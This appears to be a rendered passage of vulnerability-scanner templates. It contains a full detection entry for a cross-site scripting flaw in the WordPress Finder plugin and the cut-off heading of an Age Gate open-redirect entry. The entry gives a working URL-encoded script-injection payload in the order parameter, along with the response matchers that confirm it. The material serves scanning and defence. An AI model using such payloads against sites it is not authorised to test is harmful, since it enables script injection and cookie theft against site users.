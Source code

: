 **Type - status**

- status
  1. 200

---

# WordPress Finder - Cross-Site Scripting

## Description

- WordPress Plugin Finder contains a cross-site scripting vulnerability via the order parameter. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - xss,wp-plugin,packetstorm,wordpress

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/finder/index.php?by=type&dir=tv&order=%22%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

### Matchers

**Type - word**

- words
  1. \</script>\<script>alert(document.domain)\</script>
- part - body

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress Age Gate \<2.13.5 - Open Redirect

## Description
